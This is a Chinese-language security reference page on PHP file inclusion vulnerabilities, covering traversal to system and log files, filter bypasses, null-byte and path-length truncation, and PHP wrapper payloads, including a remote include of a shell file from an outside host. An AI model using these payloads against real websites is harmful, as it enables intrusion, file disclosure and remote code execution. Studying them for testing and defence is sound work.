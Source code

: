 文件包含
================================

基础
--------------------------------

常见的文件包含漏洞的形式为 ``<?php include("inc/" . $_GET['file']); ?>``

考虑常用的几种包含方式为

- 同目录包含 ``file=.htaccess``
- 目录遍历 ``?file=../../../../../../../../../var/lib/locate.db``
- 日志注入 ``?file=../../../../../../../../../var/log/apache/error.log``
- 利用 ``/proc/self/environ``

其中日志可以使用SSH日志或者Web日志等多种日志来源测试

绕过技巧
--------------------------------
常见的应用在文件包含之前，可能会调用函数对其进行判断，一般有如下几种绕过方式

url编码绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果WAF中是字符串匹配，可以使用url多次编码的方式可以绕过

特殊字符绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- 某些情况下，读文件支持使用Shell通配符，如 ``?`` ``*`` 等
- url中 使用 ``?`` ``#`` 可能会影响include包含的结果
- 某些情况下，unicode编码不同但是字形相近的字符有同一个效果

%00截断
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
几乎是最常用的方法，条件是magic_quotes_gpc打开，而且php版本小于5.3.4。

长度截断
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Windows上的文件名长度和文件路径有关。具体关系为：从根目录计算，文件路径长度最长为259个bytes。

msdn定义```#define MAX_PATH 260```，第260个字符为字符串结尾的```\0```

linux可以用getconf来判断文件名长度限制和文件路径长度限制

获取最长文件路径长度：getconf PATH_MAX /root 得到4096
获取最长文件名：getconf NAME_MAX /root 得到255

那么在长度有限的时候，```././././``` (n个) 的形式就可以通过这个把路径爆掉

在php代码包含中，这种绕过方式要求php版本 < php 5.2.8

伪协议绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- 远程包含: 要求 ``allow_url_fopen=On`` and ``allow_url_include=On`` ， payload为 ``?file=[http|https|ftp]://websec.wordpress.com/shell.txt``

- PHP INPUT: 把payload放在POST参数中作为包含的文件，要求 ``allow_url_include=On`` ，payload为 ``?file=php://input``

- BASE64: 使用Base64伪协议读取文件，payload为 ``?file=php://filter/convert.base64-encode/resource=index.php``

- DATA: 使用data伪协议读取文件，payload为 ``?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`` 要求 ``allow_url_include=On``


